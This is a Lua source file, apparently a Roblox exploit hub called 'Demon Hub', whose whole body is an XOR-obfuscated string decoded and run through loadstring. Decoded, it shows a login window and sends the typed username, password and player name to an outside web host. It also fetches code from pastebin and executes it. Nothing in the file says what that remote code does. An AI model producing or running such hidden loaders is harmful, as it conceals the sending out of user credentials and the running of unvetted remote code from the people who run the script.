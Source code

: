 local key=11 local str=[[&&+Onfde+C~i+^B+&&&&+J~dfjbh+Onnhbde+Xrxnfgdhjg+{gjrny+6+ljfn%[gjrnyx%Gdhjg[gjrnygdhjg+x~{{dynoLjfnx+6+p=:2:=8<8?:'+=<3=<;92>>'+?=9>8:>3;='+<:>=398;9=vgdhjg+h~yyneLjfnBo+6+ljfn%[gjhnBo&&+Hcnh`+bm+cn+h~yyne+ljfn+bx+x~{{dynogdhjg+bxX~{{dynoLjfn+6+mjgxnmdy+T'+x~{{dynoLjfnBo+be+b{jbyx#x~{{dynoLjfnx"+od++++bm+h~yyneLjfnBo+66+x~{{dynoLjfnBo+cne++++++++bxX~{{dynoLjfn+6+y~n++++++++iynj`++++neoneo&&+@bh`+cn+{gjrny+bm+cn+ljfn+bx+ed+x~{{dynobm+ed+bxX~{{dynoLjfn+cne++++gdhjg+`bh`Fnxxjln+6+)Onfde+C~i+bx+nbcny+{jhcno+dy+ed+x~{{dyno+mdy+cbx+ljfn%+[gnjxn+OF+j+fdonyjdy+bm+cbx+bx+je+nyydy'+dy+yr+jljbe+gjny%)++++{gjrny1@bh`#`bh`Fnxxjln"neogdhjg+YO32M<=L==9CIOH+6+Bexjehn%en|#)XhynneL~b)"gdhjg+Fjbe+6+Bexjehn%en|#)Myjfn)"gdhjg+^BHdyeny+6+Bexjehn%en|#)^BHdyeny)"gdhjg+^BXyd`n+6+Bexjehn%en|#)^BXyd`n)"gdhjg+Gdlbe+6+Bexjehn%en|#)_nsI~de)"gdhjg+_bgn+6+Bexjehn%en|#)_nsGjing)"gdhjg+HjxXcjod|+6+Bexjehn%en|#)Myjfn)"gdhjg+^BHdyenyT9+6+Bexjehn%en|#)^BHdyeny)"gdhjg+^BXyd`nT9+6+Bexjehn%en|#)^BXyd`n)"gdhjg+~xnyejfn+6+Bexjehn%en|#)_nsGjing)"gdhjg+^xnyejfn+6+Bexjehn%en|#)_nsIds)"gdhjg+nyydy+6+Bexjehn%en|#)_nsGjing)"gdhjg+[jxx|dyo+6+Bexjehn%en|#)_nsIds)"gdhjg+{jxx|dyo+6+Bexjehn%en|#)_nsGjing)"YO32M<=L==9CIOH%Ejfn+6+)KpYO32M<=LK/=p/K=VP9CIOH)YO32M<=L==9CIOH%[jyne+6+ljfn%[gjrnyx%Gdhjg[gjrny1\jbMdyHcbgo#)[gjrnyL~b)"YO32M<=L==9CIOH%QBeonsIncj}bdy+6+Ne~f%QBeonsIncj}bdy%XbigbelFjbe%Ejfn+6+)Fjbe)Fjbe%[jyne+6+YO32M<=L==9CIOHFjbe%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#8;'+;'+;"Fjbe%IdyonyXbqn[bsng+6+;Fjbe%[dxbbde+6+^Obf9%en|#;%93>=;=;>='+;'+;%92><29:;8'+;"Fjbe%Xbqn+6+^Obf9%en|#;'+>=='+;'+892"Fjbe%Jhb}n+6+y~nFjbe%Oyjlljign+6+y~n^BHdyeny%[jyne+6+Fjbe^BXyd`n%[jyne+6+Fjbe^BXyd`n%Hdgdy+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"^BXyd`n%J{{grXyd`nFdon+6+)Idyony)Gdlbe%Ejfn+6+)Gdlbe)Gdlbe%[jyne+6+FjbeGdlbe%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#:;9'+;'+;"Gdlbe%IdyonyXbqn[bsng+6+;Gdlbe%[dxbbde+6+^Obf9%en|#;%899?83:3'+;'+;%<2;3=292='+;"Gdlbe%Xbqn+6+^Obf9%en|#;'+9;;'+;'+>;"Gdlbe%Mde+6+Ne~f%Mde%Xd~yhnXjexXnfbidgoGdlbe%_ns+6+)G+D+L+B+E)Gdlbe%_nsHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"Gdlbe%_nsXhjgno+6+y~nGdlbe%_nsXbqn+6+:?%;;;Gdlbe%_ns\yj{{no+6+y~n^BXyd`nT9%[jyne+6+Gdlbe^BXyd`nT9%Hdgdy+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"^BXyd`nT9%J{{grXyd`nFdon+6+)Idyony)^BXyd`nT9%_cbh`enxx+6+9Gdlbe%Fd~xnNeny1Hdeenh#m~ehbde#"++++^BXyd`n%_cbh`enxx+6+9%8++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+9%<++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+8++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+8%8++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+8%<++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+?++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+?%:++++jx`%|jb#%;:"neo"Gdlbe%Fd~xnGnj}n1Hdeenh#m~ehbde#"++++^BXyd`nT9%_cbh`enxx+6+?++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+8%<++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+8%8++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+8++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+9%<++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+9%8++++jx`%|jb#%;:"++++^BXyd`nT9%_cbh`enxx+6+9++++jx`%|jb#%;:"neo"_bgn%Ejfn+6+)_bgn)_bgn%[jyne+6+Fjbe_bgn%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"_bgn%Ijh`lyd~eo_yjex{jynehr+6+:%;;;_bgn%IdyonyXbqn[bsng+6+;_bgn%[dxbbde+6+^Obf9%en|#;%9?;?=3:<?'+;'+;%;;33;9?:2>8'+;"_bgn%Xbqn+6+^Obf9%en|#;'+92:'+;'+<?"_bgn%Mde+6+Ne~f%Mde%Xd~yhnXjexXnfbidgo_bgn%_ns+6+)7mde+hdgdy6W)yli#9>>';';"W)5Onfde7$mde5+C~i)_bgn%_nsHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"_bgn%_nsXhjgno+6+y~n_bgn%Ybhc_ns+6+y~n_bgn%_nsXbqn+6+:?%;;;_bgn%_ns\yj{{no+6+y~nHjxXcjod|%Ejfn+6+)HjxXcjod|)HjxXcjod|%[jyne+6+FjbeHjxXcjod|%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#;'+;'+;"HjxXcjod|%IdyonyXbqn[bsng+6+;HjxXcjod|%[dxbbde+6+^Obf9%en|#;%9?;?=3:>2'+;'+;%;>892=2><9'+;"HjxXcjod|%Xbqn+6+^Obf9%en|#;'+:3;'+;'+?3"HjxXcjod|%QBeons+6+&:^BHdyenyT9%[jyne+6+HjxXcjod|~xnyejfn%Ejfn+6+)~xnyejfn)~xnyejfn%[jyne+6+Fjbe~xnyejfn%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"~xnyejfn%Ijh`lyd~eo_yjex{jynehr+6+:%;;;~xnyejfn%IdyonyXbqn[bsng+6+;~xnyejfn%[dxbbde+6+^Obf9%en|#;%;:2=9;:;<>'+;'+;%8>99=<?<?'+;"~xnyejfn%Xbqn+6+^Obf9%en|#;'+8:8'+;'+8?"~xnyejfn%Mde+6+Ne~f%Mde%Xd~yhnXjexXnfbidgo~xnyejfn%_ns+6+))~xnyejfn%_nsHdgdy8+6+Hdgdy8%mydfYLI#9>>'+;'+;"~xnyejfn%_nsXbqn+6+8;%;;;~xnyejfn%_ns\yj{{no+6+y~n~xnyejfn%_nsSJgblefne+6+Ne~f%_nsSJgblefne%Gnm^xnyejfn%Ejfn+6+)^xnyejfn)^xnyejfn%[jyne+6+Fjbe^xnyejfn%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"^xnyejfn%Ijh`lyd~eo_yjex{jynehr+6+:%;;;^xnyejfn%[dxbbde+6+^Obf9%en|#;%><9?83:3'+;'+;%8<2282:23'+;"^xnyejfn%Xbqn+6+^Obf9%en|#;'+993'+;'+:<"^xnyejfn%]bxbign+6+mjgxn^xnyejfn%Hgnjy_nsDeMdh~x+6+mjgxn^xnyejfn%Mde+6+Ne~f%Mde%Xd~yhnXjexXnfbidgo^xnyejfn%[gjhncdgonyHdgdy8+6+Hdgdy8%mydfYLI#:>?'+;'+;"^xnyejfn%_ns+6+))^xnyejfn%_nsHdgdy8+6+Hdgdy8%mydfYLI#:>?'+;'+;"^xnyejfn%_nsXbqn+6+8;%;;;^xnyejfn%_ns\yj{{no+6+y~n^xnyejfn%_nsSJgblefne+6+Ne~f%_nsSJgblefne%Gnmnyydy%Ejfn+6+)nyydy)nyydy%[jyne+6+Fjbenyydy%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#;'+;'+;"nyydy%Ijh`lyd~eo_yjex{jynehr+6+:%;;;nyydy%IdyonyXbqn[bsng+6+;nyydy%[dxbbde+6+^Obf9%en|#;%9<;>;8>9:'+;'+;%=<<?2>?9'+;"nyydy%Xbqn+6+^Obf9%en|#;'+9><'+;'+9>"nyydy%]bxbign+6+mjgxnnyydy%Mde+6+Ne~f%Mde%Xd~yhnXjexXnfbidgonyydy%_ns+6+)Be}jgbo+~xnyejfn${jxx|dyo)nyydy%_nsHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"nyydy%_nsXhjgno+6+y~nnyydy%_nsXbqn+6+8;%;;;nyydy%_ns\yj{{no+6+y~nnyydy%_nsSJgblefne+6+Ne~f%_nsSJgblefne%Gnm[jxx|dyo%Ejfn+6+)[jxx|dyo)[jxx|dyo%[jyne+6+Fjbe[jxx|dyo%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"[jxx|dyo%Ijh`lyd~eo_yjex{jynehr+6+:%;;;[jxx|dyo%[dxbbde+6+^Obf9%en|#;%><9?83:3'+;'+;%>933<>8>:'+;"[jxx|dyo%Xbqn+6+^Obf9%en|#;'+993'+;'+:<"[jxx|dyo%]bxbign+6+mjgxn[jxx|dyo%Hgnjy_nsDeMdh~x+6+mjgxn[jxx|dyo%Mde+6+Ne~f%Mde%Xd~yhnXjexXnfbidgo[jxx|dyo%[gjhncdgonyHdgdy8+6+Hdgdy8%mydfYLI#:>?'+;'+;"[jxx|dyo%_ns+6+))[jxx|dyo%_nsHdgdy8+6+Hdgdy8%mydfYLI#:>?'+;'+;"[jxx|dyo%_nsXbqn+6+8;%;;;[jxx|dyo%_ns\yj{{no+6+y~n[jxx|dyo%_nsSJgblefne+6+Ne~f%_nsSJgblefne%Gnm{jxx|dyo%Ejfn+6+){jxx|dyo){jxx|dyo%[jyne+6+Fjbe{jxx|dyo%Ijh`lyd~eoHdgdy8+6+Hdgdy8%mydfYLI#9>>'+9>>'+9>>"{jxx|dyo%Ijh`lyd~eo_yjex{jynehr+6+:%;;;{jxx|dyo%IdyonyXbqn[bsng+6+;{jxx|dyo%[dxbbde+6+^Obf9%en|#;%;:2=9;:;<>'+;'+;%>;?9?8:8>'+;"{jxx|dyo%Xbqn+6+^Obf9%en|#;'+8:8'+;'+8?"{jxx|dyo%Mde+6+Ne~f%Mde%Xd~yhnXjexXnfbidgo{jxx|dyo%_ns+6+)){jxx|dyo%_nsHdgdy8+6+Hdgdy8%mydfYLI#9>>'+;'+;"{jxx|dyo%_nsXbqn+6+8;%;;;{jxx|dyo%_ns\yj{{no+6+y~n{jxx|dyo%_nsSJgblefne+6+Ne~f%_nsSJgblefne%GnmGdlbe%Fd~xnI~de:Hgbh`1Hdeenh#m~ehbde#"++++gdhjg+{|+6+[jxx|dyo%_ns++++gdhjg+~x+6+^xnyejfn%_ns++++gdhjg+hcnh`+6+)c{x1$$j}jxhyb{bel%;;;|nicdxj{{%hdf$hcnh`%{c{4gdlbe6)%%dxybel#~x"%%)1)%%dxybel#{|"%%)-~xnyejfn6)%%dxybel#ljfn1LnXny}bhn#)[gjrnyx)"%Gdhjg[gjrny%Ejfn"++++bm+ljfn1C{Ln#hcnh`"+66+)Hdyynh*)+cne++++++++YO32M<=L==9CIOH%Nejigno+6+mjgxn++++++++gdjoxybel#ljfn1C{Ln#)c{x1$${jxnibe%hdf$yj|$[{hXzhxI)'y~n""#"++++ngxn++++++++nyydy%]bxbign+6+y~n++++neoneo"m~ehbde+r{n|ybn#_nsGjing'ns"++++mdy+b+6+:'(ns+od++++++++_nsGjing%_ns+6+xybel%x~i#ns':'b"++++++++jx`%|jb#%;8"++++neoneojx`%|jb#%:"r{n|ybn#~xnyejfn')[gnjxn+neny+rd~y+~xnyejfn1)"jx`%|jb#"^xnyejfn%]bxbign+6+y~njx`%|jb#"[jxx|dyo%]bxbign+6+y~njx`%|jb#9"jx`%|jb#%:"r{n|ybn#{jxx|dyo'+)\n+enno+rd~y+{jxx|dyo+dd1)"gdjoxybel#ljfn1C{Ln#)c{x1$$j}jxhyb{bel%;;;|nicdxj{{%hdf$bgd}n}dboso)'+y~n""#"&&+Fdibgn+Oyjllbel+Bf{gnfnejbdegdhjg+^xnyBe{~Xny}bhn+6+ljfn1LnXny}bhn#)^xnyBe{~Xny}bhn)"gdhjg+oyjllbelgdhjg+oyjlBe{~gdhjg+oyjlXjygdhjg+xjy[dxFjbe%Be{~Inlje1Hdeenh#m~ehbde#be{~"++++bm+be{~%^xnyBe{~_r{n+66+Ne~f%^xnyBe{~_r{n%_d~hc+cne++++++++oyjllbel+6+y~n++++++++oyjlXjy+6+be{~%[dxbbde++++++++xjy[dx+6+Fjbe%[dxbbde++++++++++++++++be{~%Hcjelno1Hdeenh#m~ehbde#"++++++++++++bm+be{~%^xnyBe{~Xjn+66+Ne~f%^xnyBe{~Xjn%Neo+cne++++++++++++++++oyjllbel+6+mjgxn++++++++++++neo++++++++neo"++++neoneo"^xnyBe{~Xny}bhn%Be{~Hcjelno1Hdeenh#m~ehbde#be{~"++++bm+oyjllbel+jeo+be{~%^xnyBe{~_r{n+66+Ne~f%^xnyBe{~_r{n%_d~hc+cne++++++++oyjlBe{~+6+be{~%[dxbbde+&+oyjlXjy++++++++Fjbe%[dxbbde+6+^Obf9%en|#xjy[dx%S%Xhjgn'+xjy[dx%S%Dmmxn+ +oyjlBe{~%S'+xjy[dx%R%Xhjgn'+xjy[dx%R%Dmmxn+ +oyjlBe{~%R"++++neoneo"]] loadstring((str:gsub(".", function(c) return string.char(bit.bxor(string.byte(c), key)) end)))()
